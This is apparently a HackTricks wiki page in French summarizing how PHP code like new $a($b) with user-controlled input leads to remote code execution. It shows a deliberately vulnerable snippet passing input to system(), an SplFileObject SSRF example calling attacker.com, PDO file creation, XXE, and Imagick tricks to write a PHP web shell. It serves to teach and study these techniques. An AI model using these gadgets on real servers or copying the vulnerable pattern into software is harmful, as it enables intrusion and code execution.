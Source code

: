 # PHP - RCE abusant de la création d'objet : new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

Ceci est essentiellement un résumé de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

La création de nouveaux objets arbitraires, tels que `new $_GET["a"]($_GET["a"])`, peut conduire à une exécution de code à distance (RCE), comme détaillé dans un [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ce document met en évidence diverses stratégies pour atteindre la RCE.

## RCE via des classes personnalisées ou autoloading

La syntaxe `new $a($b)` est utilisée pour instancier un objet où **`$a`** représente le nom de la classe et **`$b`** est le premier argument passé au constructeur. Ces variables peuvent provenir des entrées utilisateur comme GET/POST, où elles peuvent être des chaînes ou des tableaux, ou de JSON, où elles pourraient se présenter sous d'autres types.

Considérez l'extrait de code ci-dessous :
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Dans ce cas, définir `$a` sur `App` ou `App2` et `$b` sur une commande système (par exemple, `uname -a`) entraîne l'exécution de cette commande.

**Les fonctions d'autoloading** peuvent être exploitées si aucune de ces classes n'est directement accessible. Ces fonctions chargent automatiquement des classes à partir de fichiers lorsque cela est nécessaire et sont définies à l'aide de `spl_autoload_register` ou `__autoload` :
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Le comportement de l'autoloading varie selon les versions de PHP, offrant différentes possibilités de RCE.

## RCE via Classes Intégrées

En l'absence de classes personnalisées ou d'autoloaders, **les classes PHP intégrées** peuvent suffire pour le RCE. Le nombre de ces classes varie entre 100 et 200, en fonction de la version de PHP et des extensions. Elles peuvent être listées en utilisant `get_declared_classes()`.

Les constructeurs d'intérêt peuvent être identifiés via l'API de réflexion, comme le montre l'exemple suivant et le lien [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via des méthodes spécifiques inclut :**

### **SSRF + Désérialisation Phar**

La classe `SplFileObject` permet SSRF via son constructeur, permettant des connexions à n'importe quelle URL :
```php
new SplFileObject('http://attacker.com/');
```
SSRF peut conduire à des attaques de désérialisation dans les versions de PHP antérieures à 8.0 utilisant le protocole Phar.

### **Exploitation des PDOs**

Le constructeur de la classe PDO permet des connexions à des bases de données via des chaînes DSN, ce qui peut potentiellement permettre la création de fichiers ou d'autres interactions :
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Les versions de PHP jusqu'à 5.3.22 et 5.4.12 étaient susceptibles aux attaques XXE via les constructeurs `SoapClient` et `SimpleXMLElement`, en fonction de la version de libxml2.

## RCE via l'extension Imagick

Dans l'analyse des **dépendances d'un projet**, il a été découvert qu'**Imagick** pouvait être exploité pour **l'exécution de commandes** en instanciant de nouveaux objets. Cela présente une opportunité d'exploiter des vulnérabilités.

### Analyseur VID

La capacité de l'analyseur VID à écrire du contenu dans n'importe quel chemin spécifié dans le système de fichiers a été identifiée. Cela pourrait conduire à la mise en place d'un shell PHP dans un répertoire accessible via le web, réalisant ainsi une Exécution de Code à Distance (RCE).

#### Analyseur VID + Téléchargement de fichiers

Il est noté que PHP stocke temporairement les fichiers téléchargés dans `/tmp/phpXXXXXX`. L'analyseur VID dans Imagick, utilisant le protocole **msl**, peut gérer des caractères génériques dans les chemins de fichiers, facilitant le transfert du fichier temporaire vers un emplacement choisi. Cette méthode offre une approche supplémentaire pour réaliser une écriture de fichiers arbitraire dans le système de fichiers.

### Plantage PHP + Force brute

Une méthode décrite dans le [**rapport original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) implique le téléchargement de fichiers qui déclenchent un plantage du serveur avant leur suppression. En forçant le nom du fichier temporaire, il devient possible pour Imagick d'exécuter du code PHP arbitraire. Cependant, cette technique s'est révélée efficace uniquement dans une version obsolète d'ImageMagick.

## Références

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
